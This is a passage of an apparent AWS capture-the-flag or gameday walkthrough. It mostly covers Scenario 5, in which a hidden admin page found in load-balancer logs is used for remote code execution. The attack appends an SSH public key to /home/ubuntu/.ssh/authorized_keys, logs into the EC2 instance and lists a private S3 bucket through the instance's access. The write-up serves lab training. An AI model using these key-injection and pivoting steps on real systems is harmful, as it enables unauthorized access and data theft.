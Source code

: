 > #### ***In case of decoding error use the following format:***

>`aws lambda invoke --function-name Sc4InvokeMe --payload '{"key":"xxx-xx-xxx"}' --profile admin --cli-binary-format raw-in-base64-out output.json`

CMD:
> `aws lambda invoke --function-name Sc4InvokeMe --payload "{""key"":""xxx-xx-xxx""}" --profile scenario4_username --cli-binary-format raw-in-base64-out output.json` 
---

# **Scenario_5**

  Dashboard  <https://gameday-dashboard.s3.eu-central-1.amazonaws.com/index.html>

### **Configure the user profile**

`aws configure --profile scenario5_username`

### **Find the log file**

`aws s3 ls --profile scenario5_username`

`aws s3 ls s3://<bucket> --recursive --profile scenario5_username`

`aws s3 cp s3://<bucket>/sc5-lb-logs/AWSLogs/793950739751/elasticloadbalancing/eu-central-1/2019/06/19/555555555555_elasticloadbalancing_eu-central-1_app.sc5-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile scenario5_username`

`cat <file.log>`

`aws elbv2 describe-load-balancers --profile scenario5_username`

`ssh-keygen -t ed25519`

### **Find the secret admin page**

 Go to dns name of LB

 Add to DNS name of LB /XXXXXXXXXXX.html from the log file

### **Do the RCE attack**

 Do rock

`echo "your public ssh key" >> /home/ubuntu/.ssh/authorized_keys`

#### Get the ip-address of current EC2 instance

`curl ifconfig.me`

`ssh -i <path_to_private_ssh_key> ubuntu@<ipv4_address>`

#### User access a private S3 bucket

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`
